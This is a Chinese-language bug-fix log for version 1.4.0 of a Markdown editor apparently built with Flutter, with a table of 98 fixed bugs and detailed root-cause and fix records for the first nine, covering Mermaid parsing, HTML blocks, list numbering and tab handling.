

# V1.4.0 Bug 修复记录

| 编号 | 日期 | 标题 | 优先级 | 状态 |
|------|------|------|--------|------|
| BUG-001 | 2026-08-28 | 时序图的 `box` 分组与 `autonumber` 被丢弃，且 `box` 的 `end` 会错关控制框 | P1 | 已修复 |
| BUG-002 | 2026-08-28 | 点击文件夹搜索结果只打开文件，不跳到命中行 | P1 | 已修复 |
| BUG-003 | 2026-08-28 | 源码编辑器销毁时抛异常，清理逻辑其实从未执行 | **P0** | 已修复 |
| BUG-004 | 2026-08-28 | 以行内 HTML 标签开头的行被画成灰色代码框 | P1 | 已修复 |
| BUG-005 | 2026-08-28 | HTML 块跨空行找闭合标签，把中间内容整段吞掉 | P1 | 已修复 |
| BUG-006 | 2026-08-28 | 有序列表不认起始编号，一律从 1 开始编 | P2 | 已修复 |
| BUG-007 | 2026-08-28 | 列表里缩进的代码块每行多出几格缩进 | P2 | 已修复 |
| BUG-008 | 2026-08-28 | 「另存为」写完文件后不把标签页绑到新路径 | P1 | 已修复 |
| BUG-009 | 2026-08-28 | 状态图只认 `-->` 一种语句，其余全部丢弃 | P1 | 已修复 |
| BUG-010 | 2026-08-28 | 甘特图无 section 时整张图空白；多状态关键字被当成 id；中文任务名生成空 id | **P0** | 已修复 |
| BUG-011 | 2026-08-28 | 流程图的中文样式类名被静默丢弃（附全仓 ASCII 字符类普查） | P2 | 已修复 |
| BUG-012 | 2026-08-28 | 时间线里同一时间点的多个事件被并成一个 | P2 | 已修复 |
| BUG-013 | 2026-08-28 | 看板里带元数据的任务整条消失 | P1 | 已修复 |
| BUG-014 | 2026-08-28 | 预览里搜索重复串会显示出比文档更多的字 | P1 | 已修复 |
| BUG-015 | 2026-08-28 | 字数统计把 `don't` 算成两个词 | P2 | 已修复 |
| BUG-016 | 2026-08-28 | 打开非 UTF-8 文件时标签页静默消失；带 BOM 的文件保存后丢 BOM | **P0** | 已修复 |
| BUG-017 | 2026-08-28 | 用空行分隔写的列表，渲染得和不分隔时一模一样 | P2 | 已修复 |
| BUG-018 | 2026-08-28 | 主题为引用和注释定义了颜色，源码编辑器却从来不用 | P2 | 已修复 |
| BUG-019 | 2026-08-28 | 文件对话框标题在任何语言下都是英文 | P2 | 已修复 |
| BUG-020 | 2026-08-28 | 十种语言缺 12 条文案，界面里直接显示英文 | P2 | 已修复 |
| BUG-021 | 2026-08-28 | 相邻的有序列表与无序列表被并成一个 | P1 | 已修复 |
| BUG-022 | 2026-08-28 | 内容不含空格的脚注定义被当成链接定义丢弃 | P1 | 已修复 |
| BUG-023 | 2026-08-28 | 以分隔线开头的文档被当成前置元数据，中间内容整段消失 | P1 | 已修复 |
| BUG-024 | 2026-08-28 | 看板用四空格或 Tab 缩进时整张图不渲染 | P1 | 已修复 |
| BUG-025 | 2026-08-28 | 饼图写成 `pie title 标题` 时标题被丢弃 | P2 | 已修复 |
| BUG-026 | 2026-08-28 | 甘特图 `until` 画成零长条，`after a1 a2` 多依赖失效 | P2 | 已修复 |
| BUG-027 | 2026-08-28 | showcase 图表数量断言没跟上 fixture 新增块（CI 变红） | P3 | 已修复 |
| BUG-028 | 2026-08-28 | 配置保存失败会抛出未捕获的异步异常 | P1 | 已修复 |
| BUG-029 | 2026-08-28 | 预览里点链接失败会抛出未捕获异常，且没有任何提示 | P2 | 已修复 |
| BUG-030 | 2026-08-28 | 源码编辑器把代码块内部的内容也当 Markdown 上色 | P2 | 已修复 |
| BUG-031 | 2026-08-28 | 超长单行让源码编辑器卡死数十秒 | **P0** | 已修复 |
| BUG-032 | 2026-08-28 | 超长单行让**解析器**卡死一分钟（打开文档即冻结） | **P0** | 已修复 |
| BUG-033 | 2026-08-28 | 图表块里的长行让饼图卡 14 秒、ER 图卡 27 秒 | P1 | 已修复 |
| BUG-034 | 2026-08-28 | 整词搜索每比一个字符就新建一个正则 | P2 | 已修复 |
| BUG-035 | 2026-08-28 | 图表工具栏的每个按钮都要迟滞约 300 毫秒才响应 | P2 | 已修复 |
| BUG-036 | 2026-08-28 | 保存后 300 毫秒内的外部改动会被静默丢弃 | **P1** | 已修复 |
| BUG-037 | 2026-08-28 | 打开小文件也要先起一个 isolate，白等一次快照加载 | P2 | 已修复 |
| BUG-038 | 2026-08-28 | 正则「全部替换」会改动界面从未显示为匹配的位置，毁坏文字 | **P0** | 已修复 |
| BUG-039 | 2026-08-28 | 关闭窗口后进程卡住不退（目录监视线程未停） | P1 | 已修复 |
| BUG-040 | 2026-08-28 | 菜单「退出」直接杀进程，未保存的修改全部丢失 | **P0** | 已修复 |
| BUG-041 | 2026-08-28 | 命令面板的「保存」对新建文档静默失效，「新建」不本地化 | P1 | 已修复 |
| BUG-042 | 2026-08-28 | 侧边栏的五种关闭方式都不问未保存的修改，直接丢弃 | **P0** | 已修复 |
| BUG-043 | 2026-08-28 | 从关闭确认里保存新文档，标签页不绑到新路径也不入最近打开 | P2 | 已修复 |
| BUG-044 | 2026-08-28 | 从侧边栏重命名/删除文件，打开着的标签页不跟着走 | **P0** | 已修复 |
| BUG-045 | 2026-08-28 | 「消除」更新提示后，下次启动它又回来 | P2 | 已修复 |
| BUG-046 | 2026-08-28 | 光标每移动一格，整个预览的所有块都重建一遍 | **P1** | 已修复 |
| BUG-047 | 2026-08-28 | 每次按键都重建整棵文件树 | P1 | 已修复 |
| BUG-048 | 2026-08-28 | 侧边栏的新建/重命名/删除失败时毫无提示，对话框一关什么都没发生 | **P1** | 已修复 |
| BUG-049 | 2026-08-28 | 从「已打开文件」删除文件，下面的文件树不刷新，删掉的文件还在 | P2 | 已修复 |
| BUG-050 | 2026-08-28 | 保存不是原子的：写到一半崩溃会把用户的文档写成空的或半截 | **P0** | 已修复 |
| BUG-051 | 2026-08-28 | 侧边栏重命名文件夹必然失败（File.rename 对目录报 EISDIR） | **P1** | 已修复 |
| BUG-052 | 2026-08-28 | 保存失败时一声不吭，Ctrl+S 和成功保存看不出区别 | **P1** | 已修复 |
| BUG-053 | 2026-08-28 | Mermaid 语法写错时画成一个空白框，而不是提示错在哪 | **P1** | 已修复 |
| BUG-054 | 2026-08-28 | Mermaid 的三处提示文案是硬编码英文，错误框在深色主题下刺眼 | P2 | 已修复 |
| BUG-055 | 2026-08-28 | 图表解析失败的详细文案 12 种语言下都是英文 | P2 | 已修复 |
| BUG-056 | 2026-08-28 | 同一个错误框有三份实现，改了一份另两份没跟上 | P2 | 已修复 |
| BUG-057 | 2026-08-28 | 629 行从未被调用过的死代码，四处精确重复全在里面 | P2 | 已清理 |
| BUG-058 | 2026-08-28 | 深色主题下时序图的 alt/loop 帧标题与 [else] 标签几乎看不见 | P2 | 已修复 |
| BUG-059 | 2026-08-28 | 11 个快捷键写死在菜单里，设置页看不见也改不了，其中两个还和已有键位撞车 | **P1** | 已修复 |
| BUG-060 | 2026-08-28 | 标题升级/降级在设置页显示成原始动作名 | P3 | 已修复 |
| BUG-061 | 2026-08-28 | 38 个格式动作里有 17 个在命令面板里找不到 | P2 | 已修复 |
| BUG-062 | 2026-08-28 | 「最近文件」在 10 种语言里都是英文，而守这件事的测试形同虚设 | P2 | 已修复 |
| BUG-063 | 2026-08-28 | 程序已在运行时双击文件，窗口不会被唤到前台；再点图标更是毫无反应 | **P1** | 已修复 |
| BUG-064 | 2026-08-28 | 引用式图片 `![alt][ref]` 渲染成链接，`!` 掉在外面 | P2 | 已修复 |
| BUG-065 | 2026-08-28 | 导出 HTML 时原样输出文档里的脚本，用浏览器打开就会执行 | **P1** | 已修复 |
| BUG-066 | 2026-08-28 | 打完字立刻按 Ctrl+Z，撤销要么没反应、要么一次退两步 | **P1** | 已修复 |
| BUG-067 | 2026-08-28 | 撤销之后光标被丢到文档末尾 | P2 | 已修复 |
| BUG-068 | 2026-08-28 | 安装包从不覆盖 exe，三轮原生修复从未到达用户机器 | **P0** | 已修复 |
| BUG-069 | 2026-08-28 | 「打开方式」选完仍然反复出现；扩展名清单散在七处 | **P1** | 已修复 |
| BUG-070 | 2026-08-28 | 宽度超过窗格 3 倍的图表右边被裁掉（原描述已更正） | P2 | 已修复 |
| BUG-071 | 2026-08-28 | 导出时离屏渲染写死 800 宽，宽图表在 PDF/Word/HTML 里都是残的 | **P1** | 已修复 |
| BUG-072 | 2026-08-28 | 拖入/粘贴文件名带空格的图片，插入的是坏链接 | **P1** | 已修复 |
| BUG-073 | 2026-08-28 | 一条写错的公式会把库的英文异常当正文显示在文档里 | P2 | 已修复 |
| BUG-074 | 2026-08-28 | 嵌套引用的两种标准写法渲染成两个样子 | P2 | 已修复 |
| BUG-075 | 2026-08-28 | 状态图的起点和终点画得一模一样 | P2 | 已修复 |
| BUG-076 | 2026-08-28 | 选了代码字体只有代码块变，行内代码等四处不变 | P2 | 已修复 |
| BUG-077 | 2026-08-28 | 一次 CI 静静地挂了而我一直以为看不到结果 | P3 | 已修复 |
| BUG-078 | 2026-08-28 | Mermaid 节点里的 `<br/>` 被当成文字显示，实体不解码，边标签留着引号 | **P1** | 已修复 |
| BUG-079 | 2026-08-28 | 上一条只修了流程图，其余十几种图表仍把 `<br/>` 当文字 | **P1** | 已修复 |
| BUG-080 | 2026-08-28 | 表格列对齐在三种导出里全部丢失；Word 单元格还把 `**粗**` 原样输出 | **P1** | 已修复 |
| BUG-081 | 2026-08-28 | 导出的嵌套列表是无效 HTML，子列表成了父项的兄弟 | P2 | 已修复 |
| BUG-082 | 2026-08-28 | 任务列表勾选框在续行/松散/带块的列表里点了没反应 | **P1** | 已修复 |
| BUG-083 | 2026-08-28 | 关闭查找栏时在 dispose 里用 ref，每次都抛异常且预览高亮清不掉 | **P1** | 已修复 |
| BUG-084 | 2026-08-28 | 分屏把搜索切到预览后，替换按钮仍可点却什么都不做 | P3 | 已修复 |
| BUG-085 | 2026-08-28 | 设置页输入到一半，界面一重建就被抹掉（且控制器泄漏） | P2 | 已修复 |
| BUG-086 | 2026-08-28 | 窗口窄于约 1000px 时设置页横向溢出，快捷键页一次溢出几十处 | P2 | 已修复 |
| BUG-087 | 2026-08-28 | 状态栏与菜单栏在窄窗口下同样横向溢出 | P2 | 已修复 |
| BUG-088 | 2026-08-28 | 目录面板与预览对哪些行是标题看法不一，点条目跳错位置 | **P1** | 已修复 |
| BUG-089 | 2026-08-28 | 写在步骤或引用里的 mermaid 图，导出后没有图片 | **P1** | 已修复 |
| BUG-090 | 2026-08-28 | 写在步骤里的公式不加载 KaTeX、图片不内嵌 | **P1** | 已修复 |
| BUG-091 | 2026-08-28 | 上一条修复引入：写在步骤里的 setext 标题被大纲多算一条 | P2 | 已修复 |
| BUG-092 | 2026-08-28 | 重命名或新建时撞上同名文件会直接覆盖，无提示无撤销 | **P0** | 已修复 |
| BUG-093 | 2026-08-28 | 点已删除的最近文件毫无反应，失效条目永远留在列表里 | P2 | 已修复 |
| BUG-094 | 2026-08-28 | 关掉所有标签页后，导出与打印仍可点却什么都不做 | P2 | 已修复 |
| BUG-095 | 2026-08-28 | 任务列表忽略「列表标记」设置，同一文档里出现两种标记 | P3 | 已修复 |
| BUG-098 | 2026-08-28 | 批量关闭标签页不清理撤销历史与自动保存定时器 | P3 | 已修复 |
| BUG-096 | 2026-08-28 | Ctrl+P 仍被写死的分支抢走，打印的快捷键从未生效 | **P1** | 已修复 |
| BUG-097 | 2026-08-28 | 六个视图快捷键写死在主界面里，改绑之后旧键仍然生效 | P2 | 已修复 |

## 详细记录

### BUG-001 时序图的 box 分组与 autonumber 被丢弃

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | `box Purple 前端团队 … end` 在源项目里把括起来的参与者画进一个带色方框，本项目里整段被忽略；`autonumber` 自动编号同样没有效果 |
| 为何是 P1 而不是「小功能缺失」 | v1.3.0 的 BUG-086 刚让 `end` 变得有意义（收控制框）。`box` 也用 `end` 收尾，**不认识 box 就会让它的 `end` 去关掉别的框**——原本只是「少画一个盒子」，现在会变成「loop 框范围错乱」。这是上一处修复顺带引入的风险，必须一并补上 |
| 修复方案 | `box` 作为开启关键字纳入同一套栈；`end` 的规则是「有控制框先关控制框，否则关盒子」—— 盒子只可能出现在参与者声明阶段、任何框之前，两种顺序下这条规则都对。盒里声明的参与者按序记入该盒 |
| 颜色解析 | `box <颜色> <名字>` 两部分都可省略，唯一的区分办法就是**拿第一个词去试颜色**（mermaid 自己也是这么做的）。支持 `rgb()` / `rgba()` / `#hex` 与 24 个常用 CSS 颜色名；试不出来就整串当名字 |
| autonumber | 支持 `autonumber`、`autonumber <起点> <步长>`、`autonumber off`；编号写在消息文本前面，与 mermaid 的画法一致 |
| 关键字边界 | 与 BUG-086 同一条规矩：关键字后面必须是空白或行尾，所以 `boxes->>B` 和 `autonumbers->>B` 仍是普通消息 |
| 涉及文件 | `lib/ui/editor/mermaid/models/sequence.dart`、`parser/sequence_parser.dart`、`painter/sequence_painter.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 命名颜色 / rgb / 无颜色 / 无标签 / 盒与框共用 end / 盒缺 end / `boxes` 前缀 七种情况本地跑通；autonumber 六种情况跑通；画布用桩类型完整编译并跑通含分组（含成员缺席的分组）的绘制 |

---

### BUG-002 点击文件夹搜索结果只打开文件，不跳到命中行

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | 侧边栏搜索出一堆结果，点进去只是把文件打开在**第一行**。文件几百行时，等于让用户自己再找一遍 |
| 根因分析 | 两半都已经有了，中间断了一节：`_SearchResult` 记着 `lineNumber`，编辑器也早有 `scrollToLine`（目录面板就在用），可是 `onTap` 调的是 `_openFileInTab(result.filePath)` —— 行号在这一步被丢掉 |
| 隐藏的第二个问题 | 光把行号传下去还不够。新开标签页时，`scrollToLine` 发生在**这个文件的编辑器还没建出来**之前，而编辑器用的是 `listenManual`，只在值**变化**时触发 —— 它错过了这次请求，滚动依然不会发生 |
| 修复方案 | 编辑器初始化（post-frame）注册监听之后，**再主动读一次当前挂起的目标**并认领。滚动逻辑抽成 `_scrollToTargetLine`，监听回调和初始认领共用一份 |
| 已开标签页的情况 | 走 `setActiveTab` 后直接 `scrollToLine`，编辑器已存在，监听正常触发 |
| 预览模式 | 预览同样有「监听注册得太晚」的问题，一并按同样办法认领挂起目标。另外预览只对**标题行**建了 key，命中普通正文行时原本什么都不做 —— 改成回落到**该行上方最近的标题**。没有给每个块都建 key：那等于每个节点一个 GlobalKey，正是渐进渲染要避免的逐节点开销，而「滚到上一个标题」已经足够读者接上下文，且不花一分钱 |
| 涉及文件 | `lib/ui/widgets/side_bar.dart`、`lib/ui/editor/source_editor.dart`、`lib/ui/editor/markdown_renderer.dart`、`test/ui/editor/source_editor_scroll_test.dart`（新增）、`test/ui/editor/markdown_renderer_scroll_test.dart`（新增） |
| 验证方式 | 源码编辑器三个 widget 测试：目标在编辑器建出来之前就挂起、目标在之后才发出、完全没有目标；预览三个：提前挂起、普通正文行回落、比所有标题都靠前的行。判据都是「目标被清空」—— 清空只在处理函数内部发生，所以它就是「确实执行了滚动」的证据 |

---

### BUG-003 源码编辑器销毁时抛异常，清理逻辑其实从未执行

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0** |
| 状态 | 已修复 |
| 现象 | 每次销毁一个 `SourceEditor`（关标签页、切编辑模式、关窗口）都会抛 `Bad state: Cannot use "ref" after the widget was disposed`。异常被 Flutter 框架接住，界面不崩，所以**一直没人发现** |
| 后果 | `dispose()` 里那段「把 controller 的注册交还给 provider」在抛异常的那一行就中断了 —— 也就是说这段清理**一次都没跑成功过**。provider 里一直留着已销毁的 controller，而查找栏正是靠它判断「当前有没有源码编辑器」 |
| 根因分析 | `dispose()` 里写了 `ref.read(editorProvider.notifier)`。riverpod 的 `ConsumerStatefulElement.unmount` 会**先**把元素标记为已释放，**再**调用 `State.dispose()`，所以到 dispose 时 `ref` 已经不能用了 |
| 修复方案 | 在 `initState` 里就把 notifier 取出来存成字段，`dispose` 用字段而不碰 `ref` |
| 怎么发现的 | 为 BUG-002 写的 widget 测试在拆树时把它暴露了出来 —— 真实运行中异常被框架吞掉，只有测试会把「finalizing the widget tree 时抛异常」判为失败。全仓扫了一遍 `dispose()` 里用 `ref` 的地方，只有这一处 |
| 涉及文件 | `lib/ui/editor/source_editor.dart` |
| 验证方式 | 三个源码编辑器滚动 widget 测试从「拆树抛异常」变为通过 |

---

### BUG-004 以行内 HTML 标签开头的行被画成灰色代码框

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | `<kbd>Ctrl</kbd>+<kbd>C</kbd>` 独占一行（README 里极常见）在预览里变成一个**灰色等宽代码框**；`<span …>`、``、`<br>` 开头的行同理 |
| 根因分析 | HTML 块的判定是「行首是任意标签就算」（`^<([a-zA-Z][a-zA-Z0-9-]*)`）。CommonMark 只对**块级**标签名开启 HTML 块，`<kbd>` / `<span>` / `` 这些行内标签不在其列。而 HTML 块在预览里的画法正是灰底等宽框，所以判错的代价被放大了 |
| 修复方案 | 按 CommonMark 的名单做白名单（条件 6 的块级标签 + 条件 1 的 `pre` / `script` / `style` / `textarea`）。不在名单里的标签，这一行就是普通段落，原始文本留在段落里 —— 与「标签出现在行中间」的现有行为一致 |
| 补充：条件 7 | 第一版只做了白名单，拿上游 README 实跑时发现漏了规范的**条件 7**：*任意*标签名只要**整行只有它一个完整标签**，也开启 HTML 块。README 里 `<a href="…">`、`` 各占一行正是这种写法。补上之后两边都对：`<kbd>Ctrl</kbd>+<kbd>C</kbd>` 标签后面还有内容 → 段落；`` 独占一行 → HTML 块（导出照旧原样透出）。自动链接 `<https://…>`、`<foo@example.com>` 不受影响 —— 起始正则要求标签名后面是空白或 `/>`，冒号和 `@` 都过不了 |
| 未受影响 | `<div align="center">` 包 `` 这种 README 写法照旧整段是 HTML 块（`div` 在名单里，里面的 `img` 只是被一起带上）；`<details>` / `<summary>`、多行 `<div>`、未闭合标签只吃一行等既有行为全部不变 |
| 代价（已知） | HTML 导出对 HTML 块是**原样透出**、对段落文本是**转义**。补上条件 7 之后，受影响的只剩「标签后面还跟着内容」的行（如 `<kbd>…</kbd>+<kbd>…</kbd>`），它们导出后显示成文字 —— 与同样的标签出现在行中间时的既有行为一致（本来就转义）。真正的解法是 v1.3.0 的 FEAT-010（`enableHtml` 渲染），本次不扩大范围 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**（白名单与条件 7 两次各做一遍）；12 种行内/块级写法逐一探查；7 种多行 HTML 文档结构探查（居中徽章、details、未闭合、自闭合、hr）；**用上游 `../marktext/README.md` 实跑**（48 个节点）核对分类；六个历史断言脚本全部通过 |

---

### BUG-005 HTML 块跨空行找闭合标签，把中间的内容整段吞掉

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | 文档里出现一个 `<a href="x">` 开头的行，而它的 `</a>` 在很靠后的地方 —— 中间的标题、段落、代码块**全部被吞进 HTML 块**，在预览里变成一坨灰色源码 |
| 根因分析 | 块的收集是「一直往下找 `</tag>`」。CommonMark 的规则是：条件 6 / 7 开启的块**在第一个空行处结束**，跟闭合标签在不在无关（只有 `pre` / `script` / `style` / `textarea` 才找闭合标签） |
| 修复方案 | 往下找的时候，**空行和闭合标签谁先出现就在谁那里收尾**。原有的保护（既没闭合也没空行时只吃一行）保留 |
| 顺带的好处 | `<details>` 里的 markdown 现在真的按 markdown 渲染 —— 空行结束了 `<details><summary>` 那个块，正文回到普通段落。这正是规范设这条规则的用意，也是 README 里可折叠段落的常见写法 |
| 未受影响 | 中间没有空行的多行 `<div>…</div>`、居中徽章包 ``、连续两个徽章块、`<div>` 未闭合只吃一行 —— 行为全部不变 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；6 种多行结构探查（含「闭合标签在四个块之后」「details 内含加粗正文」「跨三行的徽章标签」「连续两个徽章」）；上游 `../marktext/README.md` 实跑节点分布不变；六个历史断言脚本全部通过 |

---

### BUG-006 有序列表不认起始编号，一律从 1 开始编

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | 文档写 `3. three` / `4. four`，预览、PDF、Word 里都显示成 `1.` `2.`；HTML 导出用的是裸 `<ol>`，浏览器同样从 1 开始 |
| 用户影响 | 跨图片、跨提示框把一串编号步骤拆成两段（很常见的写法），后半段的编号会被重置 |
| 根因分析 | `_markerFor` 里 `(counters[depth] ?? 0) + 1` —— 每一层永远从 1 起步，源码里写的数字压根没读出来。`_olRe` 也没有捕获数字 |
| 修复方案 | 新增 `_olNumberRe` 单独取数字（**不动 `_olRe`**：它的 group 1 是条目正文，好几处在读），`ListItem` 增加 `number` 字段；`_markerFor` 在某一层「还没开始计数」时用条目自带的数字起步，之后照常递增 |
| 规范一致性 | CommonMark 只取**首项**的数字，后面不管怎么写都顺序递增 —— 所以 `1. 1. 1.` 仍然渲染成 1/2/3（这是「让渲染器自己编号」的常见写法），`5. 2. 9.` 渲染成 5/6/7 |
| 三条导出路径 | PDF 与 Word 走的是同一个 `listMarkers`，自动生效；HTML 导出补 `<ol start="N">`（等于 1 时不写属性），嵌套子列表同样处理 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`lib/services/export_service.dart`、`test/services/markdown_parser_test.dart`、`test/fixtures_showcase_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；8 种编号写法逐一探查（含圆括号 `3)`、嵌套各自起始、任务列表带编号、项目符号后接编号）；八个历史断言脚本全部通过 |

---

### BUG-007 列表里缩进的代码块，每一行都多出几格缩进

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | 编号步骤里贴代码（README 里最常见的写法之一）：<br>`1. 安装依赖：` 空行 `   ```bash` `   flutter pub get` `   ``` `<br>代码块渲染出来每一行前面都多三个空格，复制出去也带着 |
| 根因分析 | 围栏代码块把中间的行**原样**收下。缩进是为了把围栏放到列表项底下，属于列表结构，不属于代码 |
| 修复方案 | 记下开围栏那一行的缩进列数，每行按这个宽度剥掉。**复用已有的 `_stripIndent`**（它把制表符按 4 列算）而不是新写一个 —— 动手时确实先写了一份平行实现，编译撞名才发现文件里早有一个。本版已经为「同一件事写在多处后各自漂移」记过六次账，这次没让它变成第七次 |
| 边界 | 剥的是「**最多** 这么多」：块内某一行缩进比围栏还少时，保留原样而不是把字符吃掉；空行仍是空行；制表符按列宽算 |
| 顺带确认 | 与 BUG-006 合起来，「编号步骤中间夹代码块」这种文档现在编号和代码都对了 —— 虽然结构上列表仍被代码块拆成两段（列表项承载块级内容仍是已知限制），但显示结果与预期一致 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；6 种围栏写法探查（顶层、列表内三格、块内行缩进更少、制表符、块内空行、四格缩进）；七个历史断言脚本全部通过 |

---

### BUG-008 「另存为」写完文件后不把标签页绑到新路径

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | 新建文档 → 另存为 → 文件确实写出去了，但**标签页仍然是「未命名」**：标题不变，再按一次 Ctrl+S 又弹一次「保存到哪里」，最近文件列表里也没有它 |
| 根因分析 | `_saveFileAs` 写完文件只调了 `markSaved`，没调 `updateTabPath` —— 标签页的 `filePath` 还是 null（或旧路径） |
| 连带缺陷 | `updateTabPath` 本身只改标签页，不改侧边栏「已打开文件」列表里那份路径副本。所以**重命名**之后，侧边栏那一条仍指向旧名字，点它会为一个已经不存在的文件再开一个标签页。一处修好，另存为和重命名两条路都对 |
| 保存失败 | 顺手补上：`app_menu_bar.saveFile` / `_saveFileAs` 与 `home_screen._saveCurrentFile` 三处写文件都没有 try/catch，写失败会抛出未处理的异步异常，而且 `markSaved` 是否执行取决于异常时机。现在统一为：**写失败就保持「已修改」标记**（与 `editor_tab_bar` 里既有的做法一致）—— 明明没写成功却说已保存，正是下次关闭时丢工作的原因 |
| 未做 | 保存失败时没有弹提示。提示需要 12 种语言的文案，本次不扩大范围；保留「已修改」标记至少让标签页上的圆点和关闭确认说的是实话 |
| 涉及文件 | `lib/providers/tab_provider.dart`、`lib/ui/widgets/app_menu_bar.dart`、`lib/ui/screens/home_screen.dart`、`test/providers/tab_reload_test.dart` |
| 验证方式 | 两个新测试：重绑定后标签页与侧边栏条目同时更新；**重绑定后按新路径继续监视**（与 FEAT-003 的自动重载串起来） |
| 过程记录 | 第一版提交被 CI 的 `flutter analyze` 挡下：我对 `app_menu_bar.dart` 整个文件跑了 `dart format`，它把一处**原本就存在**的长单行 `if (...) return;` 折成两行，立刻触发 `curly_braces_in_flow_control_structures`（本项目 analyze 把 info 也当失败）。而且两行的改动变成了 289 行的 diff，真正的修改被淹没。已回退格式化、只保留实际改动。**教训：只对本次新建的文件跑 `dart format`** |

---

### BUG-009 状态图只认 `-->` 一种语句，其余全部丢弃

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | `stateDiagram-v2` 的解析器只处理 `A --> B` 这一种行，其它全被忽略：<br>• `state "空闲中" as idle` —— **描述丢失**，节点还是显示 `idle`（这行的全部意义就是给状态一个可读的名字）<br>• `state pick <<choice>>` —— 选择节点画成普通圆角矩形而不是菱形<br>• `state 外层 { … }` —— **复合状态整个消失**，里面的状态被摊平到顶层，读者看不出层次<br>• `direction LR` —— 不生效<br>• 复合状态里的并发分隔符 `--` 会被当成一条畸形的转移 |
| 根因分析 | 这个解析器一共 85 行，`_parseLine` 除了 `note` 和 `%%` 两个 return，直接就上 `-->` 正则，匹配不上就丢 |
| 修复方案 | 补齐五类语句：别名描述、`<<choice/fork/join/end>>` 立体型、复合状态（花括号）、`direction`、并发分隔符 |
| 复合状态怎么画 | 状态图本来就是按 `DiagramType.flowchart` 交给流程图画布画的，而 `MermaidDiagramData` 早就有 `subgraphs` 字段 —— 复合状态直接登记成子图，方框就出来了，不用新写画布。嵌套时内层成员同时算进外层，外框才会把内框整个圈住 |
| 嵌套的绘制顺序 | 子图方框是**不透明填充**，而复合状态是「内层先闭合」—— 照这个顺序画，外框会把内框连同标题整个盖掉。按嵌套深度做**稳定排序**（外层在前），同层之间保持书写顺序 |
| 复合状态里的 `[*]` | 原来所有 `[*]` 共用一个起点节点，于是每个复合状态的入口都连到同一个圆点上。现在在复合状态内的 `[*]` 带上所属复合的作用域，各有各的入口/出口 |
| fork / join | mermaid 画成一根粗黑条，本项目的形状枚举里没有「条」—— 保持矩形，**不拿别的形状冒充**。已在解析器文档注释里写明 |
| 顺带修掉 | `_nodes` / `_edges` 是实例字段且从不清空。目前每次都是 `StateDiagramParser()` 新建实例所以没暴露，但复用实例会累加 —— 现在在 `parse` 开头清空，并有测试盯着 |
| 仍未做 | `note right of A : …` 读到即丢弃（不画便签），已在类文档里写明 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/state_diagram_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 13 种写法本地探查（含嵌套复合、带描述的复合、缺右花括号、两个平行复合、实例复用两次）；8 个仓库测试 |

---

